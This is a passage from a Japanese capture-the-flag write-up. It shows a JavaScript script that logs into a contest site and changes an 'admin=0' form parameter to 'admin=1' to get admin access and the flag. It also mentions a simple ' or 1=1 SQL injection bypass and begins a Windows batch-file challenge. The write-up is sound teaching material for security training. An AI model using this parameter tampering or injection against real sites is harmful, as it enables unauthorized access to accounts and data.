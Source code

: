 ボタンを押した際に送信されるリクエストを見てみると以下のようなものでした。
```
POST /flag.php
Content-Type: application/x-www-form-urlencoded
Cookie: ユーザのセッション

admin=0
```
adminの値を1にすればいけるのではと思いやってみたところ、アドミンアカウントとして認識してくれました。
```javascript
(async () => {
    let res;
    const baseUrl = "https://pw2-prod.2025winter-cybercontest.net/";
    const credentials = "name=mikawa01&password=ndJs83GD&pass-re=ndJs83GD";
    res = await fetch(baseUrl + "auth.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        redirect: "manual",
        body: credentials
    });
    const session = res.headers.getSetCookie();
    console.log(session);
    res = await fetch(baseUrl + "flag.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
            "Cookie": session
        },
        redirect: "manual",
        body: "admin=1"
    });
    console.log(await res.text());
})();
```
実は他の方のwriteupを見てみると、普通に' or 1=1のような簡単なペイロードで認証を突破していました。
わざわざクレデンシャルを抜き出さなくてもよかったですね。
```
flag{DoNotUseParameter2Auth}
```

## TR

### Windowsで解きましょう

フラグを生成するbatファイルが渡されます。
その中にはいくつかダミーのファイルも生成されるようになっています。
本物にだけはある目印を付けているとのことでした。
以下がそのbatファイルになります。
```bat
@echo off
setlocal
set FDATA1=23
set FDATA2=61
set FDATA3=34
set FDATA4=25
set FDATA5=75
set FDATA6=64
set FDATA7=93
set FDATA8=44
set FDATA9=72
md flags
chdir flags
```